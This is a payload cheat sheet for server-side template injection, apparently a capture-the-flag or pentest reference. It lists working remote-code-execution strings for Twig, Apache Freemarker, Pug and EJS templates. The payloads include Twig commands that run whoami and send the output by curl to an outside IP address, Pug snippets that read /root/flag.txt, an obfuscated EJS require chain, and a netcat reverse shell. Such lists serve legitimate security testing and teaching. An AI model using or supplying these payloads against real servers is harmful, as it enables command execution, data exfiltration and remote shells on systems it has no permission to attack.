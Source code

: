 Blind SSTI Twig
````
{% set exfil = "Hello & Goodbye"| url_encode %}
{{[0]|reduce('system','curl http://192.168.49.51/?exfil=' ~ exfil)}}


{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}
{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://192.168.49.51/?exfil=' ~ exfil)}}
````

### Apache Freemarker (Java)

Extension: .ftl
Testing: ${7*7}
Variables: ${<Variable_Name>}

**Remote Code Execution**
````
${"freemarker.template.utility.Execute"?new()("whoami")}
<#assign ex = "freemarker.template.utility.Execute"?new()("whoami")}"
````

### Pug (Nodejs)

Testing: #{"7"*7} 
Variable: p #{<Variable_Name>}

**Remote Code Execution**
````
- var require = global.process.mainModule.require
= require('child_process').spawnSync('whoami').stdout

- var require = global.process.mainModule.require
= require('child_process').spawnSync('cat', ["/root/flag.txt"]).stdout

- var require = global.process.mainModule.require
= require('child_process').spawnSync('ls', ["-la", "/"]).stdout

global.process.mainModule.require('child_process').spawnSync('ls', ["-la", "/"]).stdout
````

### EJS (Nodejs)

**Remote Code Execution**
````
<%= global['pro'+'cess'].mainModule['re'+'quire']('ch'+'ild_'+'proc'+'ess').spawnSync('id').stdout %>

global.process.mainModule.require('child_process').spawnSync('ls', ["-la", "/"]).stdout

process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337')
````
